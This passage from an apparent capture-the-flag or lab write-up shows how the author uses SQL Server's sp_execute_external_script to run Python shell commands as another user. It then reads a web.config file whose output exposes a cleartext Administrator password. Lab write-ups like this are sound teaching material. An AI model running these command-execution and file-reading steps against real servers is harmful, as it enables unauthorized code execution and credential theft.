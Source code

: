 

It's clear that I need to find more access.

#### Scripts

It turns out that when a webserver is enabled to run the stored
procedure `sp_execute_external_script`, and that it is configured to do
that as a different user. To run script, the [syntax is relatively
simple](https://nielsberglund.com/2017/04/20/sql-server-2017---python-executing-inside-sql-server/):



    SQL> EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("whoami");';
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 
    compatibility\poo_public01

    Express Edition will continue to be enforced.



Now I can run as `poo_public01`.

### web.config

Now I can read the `web.config` file:



    SQL> EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("type \inetpub\wwwroot\web.config");';
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 
    <?xml version="1.0" encoding="UTF-8"?>
    <configuration>
        <system.webServer>
            <staticContent>
                <mimeMap
                    fileExtension=".DS_Store"
                    mimeType="application/octet-stream"
                />
            </staticContent>
            <!--
            <authentication mode="Forms">
                <forms name="login" loginUrl="/admin">
                    <credentials passwordFormat = "Clear">
                        <user 
                            name="Administrator" 
                            password="EverybodyWantsToWorkAtP.O.O."
                        />
                    </credentials>
                </forms>
            </authentication>
            -->
        </system.webServer>
    </configuration>
